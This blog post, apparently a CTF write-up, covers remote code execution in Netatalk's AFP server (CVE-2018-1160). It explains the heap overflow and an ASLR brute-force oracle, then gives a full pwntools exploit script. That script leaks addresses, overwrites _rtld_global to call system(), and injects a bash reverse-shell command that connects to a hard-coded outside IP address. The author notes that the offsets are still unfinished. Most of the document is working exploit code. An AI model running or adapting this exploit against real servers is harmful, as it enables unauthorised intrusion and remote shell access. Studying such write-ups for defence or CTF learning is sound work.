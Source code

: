 ```yaml
---
layout: post
title: "CVE-2018-1160: Netatalk RCE"
date: 2022-07-15
permalink: /:title/
description: "Exploitation of an Apple Filing Protocol Server"
tags: [ctf]
share: true
comments: false
published: true
status: ongoing
---
```



This is the solution to a Pwnable.tw challenge, as well as an n-day exploit.
At the time of writing only ~~87~~ 88 players managed to solve it.
The most troublesome part is finding the correct offset against the challenge server, which is Ubuntu 16.04 (Kernel x86-64 4.9.0)

## Bug 

The root cause has already been thoroughly explained in many other blog posts
so I won't delve too much into that.  
AFP (Apple Filing Protocol) is an old server protocol that can be thought as
SMB for Apple's filesystem. The vulnerability is a heap overflow in
`dsi_opensess.c` that occurs when trying to open a new session with the server.
The 255 bytes overflow allows an attacker to overwrite the pointer at which
subsequent packets are written to. Given knowledge of the memory layout of the
process, the second packet can be used to overwrite function pointers in
memory, for example malloc's interal hooks (i.e. `__free_hook`).

What hasn't been touched upon as much is how to reliably defeat ASLR: the
original discovery of the bug abused the fact that the binary wasn't compiled
with PIE (Position Indipendent Executable) enabled.

## Application behaviour in regards to memory addresses validity

Due to the client-server architecture, the application behaves as a oracle by
crashing the thread when writing to an invalid memory address and responding
over the socket when writing to a valid one. Doing this allows an attacker to
leak a memory address in $$2^8 \cdot 3$$ attempts.

## Bypass

_This is work in progress, the final exploit needs its offsets to be adjusted against the challenge's server._ 

## Exploitation strategy

I chose to overwrite `_rtld_global`'s pointer, more specifically
`_rtld_global._dl_rtld_lock_recursive` which is a function invocked when
`exit(...)` is called, its function arguments can be found in
`_rtld_global._dl_load_lock`

## Full code

```python
from pwn import *
from time import sleep
from random import uniform


elf = ELF('./afpd')
libc = ELF('./libc.so.6')

DSI_FLAGS = {
    "request": 0x0,
    "response": 0x1
}

DSI_CMD = {
    "get_status": 0x3,
    "open_sess": 0x4,
    "tickle": 0x5
}

if args['REMOTE']:
    HOST = "chall.pwnable.tw"
    PORT = 10002
else:
    HOST = "localhost"
    PORT = 5566

def new_dsi_header(flag, command, request_id, offset, data_len):

    DSI_FLAGS = p8(flag, endian='big')
    DSI_COMMAND = p8(command, endian='big')
    DSI_REQUEST_ID = p16(request_id, endian='big')
    DSI_ERROR = p32(offset, endian='big')
    DSI_DATA_LENGTH = p32(data_len, endian='big')
    DSI_RESERVED = p32(0x0, endian='big')

    pck  = DSI_FLAGS
    pck += DSI_COMMAND
    pck += DSI_REQUEST_ID
    pck += DSI_ERROR
    pck += DSI_DATA_LENGTH
    pck += DSI_RESERVED

    return pck

def send_afp(payload, req_id=0x0):

    context(endian='big')

    io = remote(HOST, PORT, level='error')

    error_code = 0x0

    p = p8(0x1, endian='big')
    p += p8(16 + len(payload), endian='big')
    p += p32(0x41414141)
    p += p32(0x42424242)
    p += p32(0x66666666)    # server quantum
    p += p32(0x43434343)    # client/server id
    p += payload            # cmd pointer

    packet = new_dsi_header(DSI_FLAGS["request"], DSI_CMD["open_sess"], req_id, error_code, len(p))
    packet += p

    io.send(packet)
    io.recv()

    try:
        reverse_shell = b"bash -c 'bash -i >& /dev/tcp/139.162.131.224/12345 0>&1' \x00"
        trigger = reverse_shell.ljust(0x5f8) + p64(libc_base + libc.symbols['system'], endian='little')
        packet = new_dsi_header(DSI_FLAGS["request"], DSI_CMD["open_sess"], req_id+1, error_code, len(trigger))
        packet += trigger
    except:
        pass

    try:
        io.send(packet)
        io.close()
    except Exception as ex:
        pass

def bruteforce_aslr():
    context(endian='big')
    leak_addr = b''

    req_id = 0x0
    error_code = 0x0

    if args['SKIP']:
        return int(args['SKIP'], 0)

    for b in range(8):
        for i in range(256):
            print(f"[*] trying byte: {hex(i)} in offsetÊ{b}", end="\r")
            io = remote(HOST, PORT, level='error')

            payload = b"\x01" + p8(0x11 + b) + b"a"*0x10 + leak_addr + p8(i)
            packet = new_dsi_header(DSI_FLAGS["request"], DSI_CMD["open_sess"], req_id, error_code, len(payload))
            packet += payload

            io.send(packet)
            try:
                a = io.recv()
                leak_addr += p8(i)
                log.success(str(hex(i)))
                io.close()
                break
            except:
                io.close()

    print("\n")
    log.success(hex(u64(leak_addr,endian='little')) + "\n")

    return int.from_bytes(leak_addr, 'little')

rtld_off = 0x61b060
_dl_load_lock_off = 2312
leaked_addr = bruteforce_aslr()
print("memory address: " + hex(leaked_addr))

if args['LIBC_OFF']:
    libc_base = leaked_addr - 0x817000
    rtld_addr = libc_base + rtld_off + _dl_load_lock_off

    try:
        send_afp(p64(rtld_addr, endian='little'))
    except:
        pass
else:
    # try every memory page-aligned address (assuming leaked_addr is page-aligned)
    # for offset in range(-0xfffff000, 0xfffff000, 0x1000):
    for offset in range(0, 0x6000000, 0x1000):
        for rtld_off in [0x61b060, 0xed4060]:

            libc_base = leaked_addr - offset
            rtld_addr = libc_base + rtld_off + _dl_load_lock_off

            try:
                r = uniform(0, 0.2)
                print(f"[*] looking for libc base: {hex(libc_base + offset)} - {hex(offset)}, waiting {r}", end="\r")
                sleep(r)
                send_afp(p64(rtld_addr, endian='little'))
            except:
                pass

    print("\n")
    log.success("end")
```


